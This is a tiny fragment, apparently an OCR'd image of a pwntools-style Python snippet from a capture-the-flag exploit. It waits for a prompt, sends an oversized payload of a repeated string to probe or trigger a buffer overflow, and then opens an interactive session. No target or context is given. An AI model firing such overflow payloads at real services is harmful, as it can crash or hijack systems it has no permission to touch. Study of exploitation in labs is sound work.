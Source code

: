 ```
p.recvuntil(b'...', drop=True)
payload = b'1234' * 50
p.sendline(payload)

p.interactive()
```




